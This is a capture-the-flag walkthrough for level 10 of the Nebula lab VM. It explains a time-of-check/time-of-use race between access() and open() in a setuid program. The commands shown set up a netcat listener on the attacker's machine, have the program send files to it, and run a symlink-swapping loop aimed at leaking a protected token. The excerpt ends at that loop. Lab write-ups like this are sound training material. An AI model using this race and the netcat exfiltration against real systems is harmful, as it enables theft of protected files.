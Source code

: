 This tells all everything about this level. From the man page (level10@nebula:/home/flag10$ man access):

- access() checks whether the calling process can access the file path‐name.
- The check is done using the calling process’s real UID and GID, rather than the effective IDs as is done when actually attempting an operation (e.g., open(2)) on the file.

Also inside this IF statement we have:

```cpp
ffd = open(file, O_RDONLY);
```

⇒ In other words this is a a time-of-use to time-of-check or TOCTOU bug (https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use).

⇒ If we can swap out the file between the time-of-check and the time-of-use, we should be able to send token.

⇒ Race condition! Let’s try!

Nebula system:

```terminal
level10@nebula:/home/flag10$ nano /tmp/token
level10@nebula:/home/flag10$ cat /tmp/token
Here I have full access.
level10@nebula:/home/flag10$
Personal system:
root@yourcomputer:~$ nc -l 18211
Nebula system:
level10@nebula:/home/flag10$ ./flag10 /tmp/token 192.168.56.1
Connecting to 192.168.56.1:18211 .. Connected!
Sending file .. wrote file!
level10@nebula:/home/flag10$
```

Personal system:

```terminal
root@yourcomputer:~$ nc -l 18211
.oO Oo.
Here I have full access.
```

⇒ If I have access to my token file then I can get my token.

Hmmm. Do you remember our friendly command "ln"? Is there enough delay between our link and our access permissions? While true?

Personal system:

```terminal
root@yourcomputer:~$ nc -lk 18211
"k" for "non-stop listening".
```

Nebula system (terminal 1):

```terminal
level10@nebula:~$ cd /tmp
level10@nebula:/tmp$ while true; do ln -sf /home/flag10/token test; ln -sf /tmp/token test; done
```
